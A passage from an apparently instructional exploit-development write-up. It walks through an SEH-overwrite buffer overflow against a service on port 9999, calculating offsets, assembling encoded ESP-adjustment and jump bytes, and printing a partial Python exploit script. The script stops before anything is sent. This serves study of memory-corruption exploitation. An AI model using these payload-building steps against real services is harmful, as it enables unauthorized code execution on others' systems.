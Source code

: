 As you can see, the last address space before we run into our SEH overwrite code is `0177FFC3`. Let's subtract our current location from this to determine how many bytes we have to play with: (`0177FFC3` - `0177FF6D` = `56` or 86 in decimal). So we have ~86 bytes to play with. Not quite enough for anything besides possibly a longer jump. The longer jump will be performed by setting a register value to the location of the beginning of our `A` buffer and then jumping to that register with a `call` instruction. 

But first, we need to reset ESP so that our decoded shellcode will appear where we want it. Let's place it right at the end of our `A` buffer so that we have max room. Currently `ESP` points to `0177FFED` so to figure out how much to subtract to get it to `0177FFC3`, we just subtract (`0177FFED` - `0177FFC3` = `2A`). So our `ESP` adjustment code will be:
```terminal_session
nasm > push esp
00000000  54                push esp
nasm > pop eax
00000000  58                pop eax
nasm > sub al, 0x2a
00000000  2C2A              sub al,0x2a
nasm > push eax
00000000  50                push eax
nasm > pop esp
00000000  5C                pop esp
```

So we'll put the variable `espAdj2` and set it equal to: `\x54\x58\x2c\x2a\x50\x5c`. 

We need to calculate how many `A` chars will come before our `espAdj2` code. The `A` buffer starts at `0177F20A`, so to calculate we do: (`0177FF6D` - `0177F20A` = `D63` or 3427 in decimal). 

So we need 3427 `A` chars in our buffer before our `espAdj2` code starts and then we'll put padding after it as well letting python work out the math required. Our exploit code now looks like this:
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

nSeh = '\x74\x06\x75\x04'

Seh = '\x2b\x17\x50\x62'

espAdj = '\x54\x58\x66\x05\x4b\x13\x50\x5C'

jump = ""
jump += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
jump += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
jump += "\x05\x76\x40\x50\x50" ## add  eax, 0x50504076
jump += "\x05\x75\x40\x40\x40" ## add  eax, 0x40404075
jump += "\x50" 

espAdj2 = '\x54\x58\x2c\x2a\x50\x5c'

buffer = 'A' * 3427
buffer += espAdj2
buffer += 'A' * (3514 - 3427 - len(espAdj2))
buffer += nSeh
buffer += Seh
buffer += espAdj
buffer += jump
buffer += 'D' * (4000 - len(buffer))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```